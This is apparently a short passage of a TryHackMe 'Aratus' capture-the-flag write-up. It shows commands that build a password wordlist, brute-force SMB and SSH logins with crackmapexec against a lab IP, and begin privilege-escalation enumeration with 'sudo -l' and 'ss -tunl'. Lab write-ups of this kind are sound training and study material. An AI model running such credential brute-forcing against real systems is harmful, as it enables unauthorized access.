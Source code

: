 ![Aratus](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Aratus/screenshots/20250510005205.png)

```bash
cat text1.txt| sed -E 's/([[:punct:]])/ \1 /g' | tr -s ' ' '\n' | grep -v '^$' | grep -v '[[:punct:]]' | sort -u >pass.txt
```

# Brutforse 
```bash
crackmapexec smb 10.10.124.169 -u simeon -p pass.txt
```

```bash
crackmapexec ssh 10.10.124.169 -u simeon -p pass.txt
```

![Aratus](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Aratus/screenshots/20250510011337.png)

# LPE
```bash
sudo -l
```
![Aratus](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Aratus/screenshots/0250510011537.png)
```bash
ss -tunl
```